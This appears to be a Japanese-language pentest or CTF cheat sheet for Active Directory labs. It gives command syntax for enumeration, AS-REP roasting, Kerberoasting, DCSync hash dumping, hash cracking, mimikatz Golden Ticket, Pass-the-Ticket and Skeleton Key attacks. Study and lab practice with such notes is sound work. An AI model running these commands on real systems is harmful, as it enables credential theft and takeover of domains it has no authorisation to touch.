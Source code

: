 ## Tools
- CyberChef  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」WinRM経由でログインできる。
- ftp (kali〇, ELF)  
  「ftp IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali〇, Go)  
  「`gobuster` -u URL -w wordlist dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」GPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル Wordlist」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` --john "Hashファイル名"」（--johnで、JohnTheRipperでのフォーマットも確認できる）
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  `impacket-〇〇`以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      `ASREPRoast`（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTを「john --wordlist=Wordlist名 TGT名」または「hashcat -a 0 -m 18200 wordlist名 TGT名 」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    DCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt "Hashファイル" --format=Hash方式」  
    「`john` "Hashファイル名" --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` "zipファイル" > "出力ファイル"」johnで解析できるようにZIPパスワードを出力  
    - 「`rar2john` "rarファイル" > "出力ファイル"」johnで解析できるようにRARパスワードを出力  
    - 「`ssh2john` "SSH秘密鍵ファイル" > "出力ファイル"」johnで解析できるようにSSH秘密鍵を出力
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt "出力ファイル"」でクラック可能
  - 「john --single "Hashファイル" --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは`文字列:ハッシュ`形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限を確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    krbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    GoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする。
- [pdfinfo](https://github.com/howtomakeaturn/pdfinfo) (kali×, PHP)  
  「`pdfinfo` "PDFファイル名"」PDFメタデータの確認
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「`hashcat` -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル名」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    TGTは「hashcat -a 0 -m 18200 TGTファイル名 Passwordリスト」でクラックできる  
    （Johnでは「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる）
- scp (kali〇, ELF)  
  「scp SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「`sudo sed -i '$a10.10.253.185 spookysec.local' /etc/hosts`」を実行しHOSTSファイルを編集
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる
## BookMark
- [CrackStation](https://crackstation.net/)
- [hashes.com](https://hashes.com/en/decrypt/hash)
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)
